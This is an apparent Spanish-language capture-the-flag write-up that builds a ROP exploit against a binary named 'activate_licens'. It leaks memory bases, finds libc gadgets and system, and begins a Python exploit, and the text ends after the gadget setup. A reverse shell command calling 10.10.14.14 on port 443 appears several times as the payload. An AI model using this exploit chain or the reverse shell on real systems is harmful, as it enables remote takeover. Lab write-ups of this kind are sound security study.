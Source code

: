 ```bash
libc_memory=$(curl -s $base64_url/proc/$pid/maps | base64 -d | grep "libc" | head -n1 | awk '{print $1}' | awk '{print $1}' FS="-")
binary_memory=$(curl -s $base64_url/proc/$pid/maps | base64 -d | grep "activate_licens" | head -n1 | awk '{print $1}' | awk '{print $1}' FS="-")

echo "Direccion de memoria del binario -> 0x${binary_memory}"
echo "Direccion de memoria de libc -> 0x${libc_memory}"
```

También hay que ver que parte del bianrio tiene permisos de escritura (donde meteremos el comando de la reverse shell que se le pasará a system)
```console
└─$ rabin2 -S ./activate_licens | grep "w"
23  0x00003000   0x10 0x00004000   0x10 -rw- .data
```
La seccion .data es la idonea para esto (es donde se meten varaibles estaticas) y tenemos suerte de que es escribible.
El resto de direcciones la sacaremos de esta libc que usa el bianrio:
- **system**
```console
└─$ objdump -d libc-2.31.so | grep "system"    
0000000000048e50 <__libc_system@@GLIBC_PRIVATE>:
# Tambien con readelf -> readelf -s libc-2.31.so | grep "system" 
```
- **ROP gadgets**
```console
└─$ ropper -f libc-2.31.so --search "pop rdi; ret"
0x0000000000026796: pop rdi; ret;
└─$ ropper -f libc-2.31.so --search "pop rsi; ret"
0x000000000002890f: pop rsi; ret;
└─$ ropper -f libc-2.31.so --search "mov [rdi], rsi; ret"
0x00000000000603b2: mov qword ptr [rdi], rsi; ret;
```
¿Que es lo que pretendemos hacer con esto?
Como dije antes hay que hacer ```system(bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1')```.
Para ello este "bash -c..." se tiene que escribir en la seccion con permisos de escritura, es decir ".data":
```.data = bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'``` Esto se hace tambien con los registros (rdi y rsi)
1. Hay que meter en \[rdi] la direccion de ".data".
2. Hay que dividier el comando en cadenas de 8 en 8 bytes (enteros, si sobra un byte se le añaden 7 ceros para que de 8)
3. Hay que ir moviendo esas cadenas a .data (rdi) de tanda en tanda, para ello se meten en (rsi) 
4. "mov rdi rsi" -> Mueve lo de rsi (las cadenas) a rdi (la seccion .data))

Despues de esto se mete en rdi la seccion .data y se le pasa dicho rdi a system.
Aquí estaria el exploit (he vuelto a copiar como comentario los comandos de donde se ha sacado cada cosa).

```python3
#!/usr/bin/python3
import socket
from struct import pack
import requests

cmd = b"bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
# Sacamos estas dos del script de bash de antes, por tanto a usted le saldran diferentes (solo estas dos, el resto son iguales)
libc_base = 0x7f356ace6000
binary_base = 0x5646c60f3000

writable = binary_base + 0x00004000   # rabin2 -S ./activate_licens | grep "w"
system = pack("<q",(libc_base + 0x00048e50)) #  objdump -d libc-2.31.so | grep "system" 
pop_rdi = pack("<q",(libc_base + 0x0026796)) #   ropper -f libc-2.31.so --search "pop rdi; ret"
pop_rsi = pack("<q",(libc_base + 0x002890f)) #  ropper -f libc-2.31.so --search "pop rsi; ret"
```